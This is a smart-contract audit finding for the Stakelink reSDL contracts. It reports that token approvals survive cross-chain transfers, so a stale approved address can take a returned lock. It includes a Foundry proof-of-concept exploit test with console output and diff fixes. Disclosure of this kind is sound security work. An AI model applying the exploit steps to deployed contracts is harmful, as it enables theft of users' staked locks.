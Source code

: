 # Stakelink

Code under review: [2023-12-stakelink](https://github.com/Cyfrin/2023-12-stake-link) (1414 nSLOC)

## [H-01] Token approvals are not revoked when transferring reSDL across chains, leading to stolen funds.

### Summary
reSDL token approvals are not deleted when transferring reSDL cross-chain, allowing previously approved users to steal a reSDL lock once it's been transferred back to the original chain. 

### Vulnerability Details
Transferring reSDL locks between users is supposed to delete the approvals for that lockId, as new owners likely do not want the previously approved people to still be approved to their lock. This is evident in the NATSPEC of the function `SDLPool::approve`
<details>
<summary>NATSPEC of SDLPool::approve()</summary>

```javascript
    /**
     * @notice approves `_to` to transfer `_lockId` to another address
     * @dev
---> * - approval is revoked on transfer and can also be revoked by approving zero address
     * - reverts if sender is not owner of lock and not an approved operator for the owner
     * - reverts if `_to` is owner of lock
     * - reverts if `_lockId` is invalid
     * @param _to address approved to transfer
     * @param _lockId id of lock
     **/
```
</details>

The above requirement is properly enforced in the `SDLPool::_transfer()` internal function, due to the line:

```delete tokenApprovals[_lockId]```
(Line 464 of SDLPool.sol)

However, the requirement is not held when transferring reSDL tokens cross-chain.

When a user calls `RESDLTokenBridge::transferRESDL` to send a reSDL lock to the secondary chain, 
In `SDLPoolPrimary::handleOutgoingRESDL`, the token approvals for the lock `_lockId` are not deleted.
<details> 
<summary>Code</summary>

```javascript 
    Lock memory lock = locks[_lockId];

    delete locks[_lockId].amount;
    delete lockOwners[_lockId];
    balances[_sender] -= 1;
    // [H] @audit - what about token approvals?
    // The token approvals for reSDL are not deleted when we use the bridge to send reSDL to another chain!

    uint256 totalAmount = lock.amount + lock.boostAmount;
    effectiveBalances[_sender] -= totalAmount;
    effectiveBalances[ccipController] += totalAmount;

    sdlToken.safeTransfer(_sdlReceiver, lock.amount);

    emit OutgoingRESDL(_sender, _lockId);    
```
</details>

Similarly in `SDLPoolSecondary::handleOutgoingRESDL`, tokenApprovals are not deleted on sending reSDL back to the primary chain.

Note that how much ever the lock is transferred in the other chain, the approvals in that chain will constantly be deleted, but the approvals in the original chain remain intact.

### Impact

Since the approvals are not deleted whenever the reSDL token is transferred over to a different chain, the approval will still exist when the token is transferred back to the original chain. Once this happens, the approved user can transfer the lock to themselves, since they have approval to that lockId.

### Proof of Concept

**Summary:**

The following is one example of how the vulnerability can be exploited.

Initial State: initialOwner owns the lock with lockId=1 (the lockId is arbitrary, the vulnerability exists for every lockId possible).

Steps:

1. A user (initialOwner) approves their alt account (initialOwner_Alt), before transferring their reSDL lock to another user (receiverOfLock) on secondary chain
2. The user who just received it on the secondary chain transfers the lock to someone else (otherReceiverOfLock), this only deletes approvals on the secondary chain
3. The otherReceiverOfLock transfers their lock back to the primary chain, with the receiver being their own address.
4. initialOwner_Alt who is still approved calls `primarySDL.transferFrom(otherReceiverOfLock, initialOwner_Alt, lockIds[0]);` to transfer the lock back to themselves.
 
> Note that the following foundry test may not be immediately runnable on any machine, as it uses a few custom mocks that bypass the need for CCIP but mimic the functionality of the protocol. 

<details><summary>Setting up</summary>

```javascript
contract YourTestContract is Test {

    struct OnRamp {
        uint64 destChainSelector;
        address onRamp;
    }
    struct OffRamp {
        uint64 sourceChainSelector;
        address offRamp;
    }

    uint64 primaryChainSelector = 77;
    uint64 secondaryChainSelector = 78;

    ERC677Token linkToken;
    ERC677Token sdlToken;
    ERC677Token token2;
    WrappedNative wrappedNative;
    LinearBoostController boostController;

    SDLPoolPrimary primarySDL;
    SDLPoolSecondary secondarySDL;

    CCIPTokenPoolMock tokenPool;
    CCIPTokenPoolMock tokenPool2;

    MockRESDLTokenBridge bridgePrimary;
    MockRESDLTokenBridge bridgeSecondary;

    // USERS
    address user1 = makeAddr("1");
    address user2 = makeAddr("2");
    address user3 = makeAddr("3");

    function setUp() public {
        // Deploy ERC677 tokens

        address starterMaster = makeAddr("starterMaster"); // he gets all the supply @ the start
        linkToken = new ERC677Token("Chainlink", "LINK", starterMaster, 1000000000);
        sdlToken = new ERC677Token("SDLName", "SDL", starterMaster, 1000000000);
        token2 = new ERC677Token("Token2", "T2", starterMaster, 1000000000);

        // Deploy other contracts
        wrappedNative = new WrappedNative();
        address armProxy = address(new CCIPArmProxyMock());
        address router = address(new Router(address(wrappedNative), armProxy));


        // TokenPool
        tokenPool = new CCIPTokenPoolMock(address(sdlToken));
        tokenPool2 = new CCIPTokenPoolMock(address(token2));

        address[] memory tokens = new address[](2);
        tokens[0] = address(sdlToken);
        tokens[1] = address(token2);
        address[] memory tokenPools = new address[](2);
        tokenPools[0] = address(tokenPool);
        tokenPools[1] = address(tokenPool2);

        boostController = new LinearBoostController(4 * 365 * 86400, 4);
        
        SDLPoolPrimary primarySDLImplementation = new SDLPoolPrimary();
        SDLPoolSecondary secondarySDLImplementation = new SDLPoolSecondary();
        
        // make proxies
        ERC1967Proxy proxyPrimary = new ERC1967Proxy(address(primarySDLImplementation), "");
        ERC1967Proxy proxySecondary = new ERC1967Proxy(address(secondarySDLImplementation), "");

        // Interface at the proxy address
        primarySDL = SDLPoolPrimary(address(proxyPrimary));
        secondarySDL = SDLPoolSecondary(address(proxySecondary));

        //initialize the implementations
        primarySDL.initialize('reSDL', 'reSDL', address(sdlToken), address(boostController));
        secondarySDL.initialize('reSDL', 'reSDL', address(sdlToken), address(boostController), 5);
        
        //Pool Controllers
        MockPrimaryController primaryController = new MockPrimaryController(router, address(linkToken), address(sdlToken), address(primarySDL), 10 ether);
        MockSecondaryController secondaryController = new MockSecondaryController(router, address(linkToken), address(sdlToken), address(secondarySDL), 77, makeAddr("4"), 10 ether, '0x');

        // Bridges
        bridgePrimary = new MockRESDLTokenBridge(address(linkToken), address(sdlToken), address(primarySDL), address(primaryController));
        bridgeSecondary = new MockRESDLTokenBridge(address(linkToken), address(sdlToken), address(secondarySDL), address(secondaryController));

        // Setting up primary side
        primaryController.setRESDLTokenBridge(address(bridgePrimary));
        primarySDL.setCCIPController(address(primaryController));

        vm.prank(address(bridgePrimary));
        linkToken.approve(address(bridgePrimary), type(uint256).max);

        bridgePrimary.setExtraArgs(77, '0x11');
        primaryController.addWhitelistedChain(77, user1, '0x', '0x');
        sdlToken.mint(user2, 2000 ether);

        // Setting up secondary side
        secondaryController.setRESDLTokenBridge(address(bridgeSecondary));
        secondarySDL.setCCIPController(address(secondaryController));

        
        // Creating 2 different locks in the primary pool
        vm.startPrank(user2);
        sdlToken.transferAndCall(
        address(primarySDL),
        200 ether,
        abi.encode(uint256(0), uint64(0)));


        sdlToken.transferAndCall(
        address(primarySDL),
        1000 ether,
        abi.encode(uint256(0), uint64(365 * 86400)));

        vm.stopPrank();
    }
}
```
</details>
<details>
<summary>Proof of Code</summary>

```javascript
function test_POC_ApprovalsNotDeleted() public {
    // This shows that approvals in one chain are not deleted when a lock is sent to another chain

    address initialOwner = makeAddr("2");
    address receiverOfLock = makeAddr("3");

    address initialOwner_Alt = makeAddr("2Alt");

    vm.startPrank(initialOwner);
    // Approve the alt account
    primarySDL.approve(initialOwner_Alt, 1);

    // Log the approvals of lockId=1
    address approvals = primarySDL.getApproved(1);
    console2.log("Approvals of token1: %s", approvals);
    console2.log("Alt account of initial owner: %s\n", initialOwner_Alt);

    console2.log("SENDING LOCK TO SECONDARY CHAIN\n");
    bridgePrimary.transferRESDL(78, address(bridgeSecondary), receiverOfLock, 1, false);
    vm.stopPrank();

    // Now transfer the lock in the secondary chain
    address otherReceiverOfLock = makeAddr("4");
    vm.startPrank(receiverOfLock);
    console2.log("TRANSFERRING LOCK TO `otherReceiverOfLock`, ON SECONDARY CHAIN\n");

    // This deletes the approvals of the lock, but only in the secondary chain
    secondarySDL.transferFrom(receiverOfLock, otherReceiverOfLock, 1);
    vm.stopPrank();
    assertEq(secondarySDL.ownerOf(1), otherReceiverOfLock);

    // Then send it back to themselves on the primary chain
    vm.startPrank(otherReceiverOfLock);
    console2.log("SENDING LOCK BACK TO PRIMARY CHAIN\n");
    bridgeSecondary.transferRESDL(77, address(bridgePrimary), otherReceiverOfLock, 1, false);
    vm.stopPrank();

    // Check that the approvals are still there
    approvals = primarySDL.getApproved(1);
    console2.log("Approvals of token1: %s", approvals);
    console2.log("Alt account of initial owner: %s\n", initialOwner_Alt);

    // Check that `otherReceiverOfLock` is still the owner of the lock
    uint256[] memory lockIds = primarySDL.getLockIdsByOwner(otherReceiverOfLock);
    assertEq(lockIds[0], 1);

    // Check that og owner's alt account can transfer it to themselves
    vm.startPrank(initialOwner_Alt);
    console2.log("USING APPROVAL TO TRANSFER LOCK TO `initialOwner_Alt`");
    primarySDL.transferFrom(otherReceiverOfLock, initialOwner_Alt, lockIds[0]);
    vm.stopPrank();

    // Check that the alt account now owns the lock with lockId=1, effectively stolen from `otherReceiverOfLock`
    lockIds = primarySDL.getLockIdsByOwner(initialOwner_Alt);
    assertEq(lockIds[0], 1);

    console2.log("New owner of lockId=1: %s", primarySDL.ownerOf(1));
}
```
</details>

<details>
<summary> Console Output </summary>

```zsh
Running 1 test for test/PoC/Proofs.t.sol:YourTestContract
[PASS] test_POC_ApprovalsNotDeleted() (gas: 489600)
Logs:
  Approvals of token1: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4
  Alt account of initial owner: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4

  SENDING LOCK TO SECONDARY CHAIN

  TRANSFERRING LOCK TO `otherReceiverOfLock`, ON SECONDARY CHAIN

  SENDING LOCK BACK TO PRIMARY CHAIN

  Approvals of token1: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4
  Alt account of initial owner: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4

  USING APPROVAL TO TRANSFER LOCK TO `initialOwner_Alt`
  New owner of lockId=1: 0x77990f6fAB74c49C1Cf63A93fCDA0A40C86E65f4

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.33ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
</details> 

### Tools Used
Manual Review

### Recommendations
Delete the token approvals whenever reSDL tokens are transferred to another chain.
This will ensure that approved users dont have the ability to transfer reSDL tokens once the tokens have been transferred cross-chain.

In `SDLPoolPrimary::handleOutgoingRESDL`:
<details><summary>SDLPoolPrimary Mitigation</summary>

```diff
function handleOutgoingRESDL(
        address _sender,
        uint256 _lockId,
        address _sdlReceiver
    )
        external
        onlyCCIPController
        onlyLockOwner(_lockId, _sender)
        updateRewards(_sender)
        updateRewards(ccipController)
        returns (Lock memory)
    {
        Lock memory lock = locks[_lockId];

        delete locks[_lockId].amount; 
        delete lockOwners[_lockId];
+       delete tokenApprovals[_lockId];
        balances[_sender] -= 1;


        uint256 totalAmount = lock.amount + lock.boostAmount;
        effectiveBalances[_sender] -= totalAmount;
        effectiveBalances[ccipController] += totalAmount;

        sdlToken.safeTransfer(_sdlReceiver, lock.amount); // @audit - _sdlReceiver is the address of the CCIPController.

        emit OutgoingRESDL(_sender, _lockId);

        return lock;
    }
```
</details>

Similarly, in `SDLPoolSecondary::handleOutgoingRESDL`:
<details><summary>SDLPoolSecondary Mitigation</summary>

```diff
function handleOutgoingRESDL(
        address _sender,
        uint256 _lockId,
        address _sdlReceiver
    ) external onlyCCIPController onlyLockOwner(_lockId, _sender) updateRewards(_sender) returns (Lock memory) {
        if (queuedLockUpdates[_lockId].length != 0) revert CannotTransferWithQueuedUpdates();

        Lock memory lock = locks[_lockId];

        delete locks[_lockId].amount;
        delete lockOwners[_lockId];
+       delete tokenApprovals[_lockId];
        balances[_sender] -= 1;

        uint256 totalAmount = lock.amount + lock.boostAmount;
        effectiveBalances[_sender] -= totalAmount;
        totalEffectiveBalance -= totalAmount;

        sdlToken.safeTransfer(_sdlReceiver, lock.amount);

        emit OutgoingRESDL(_sender, _lockId);

        return lock;
    }
```

</details>
		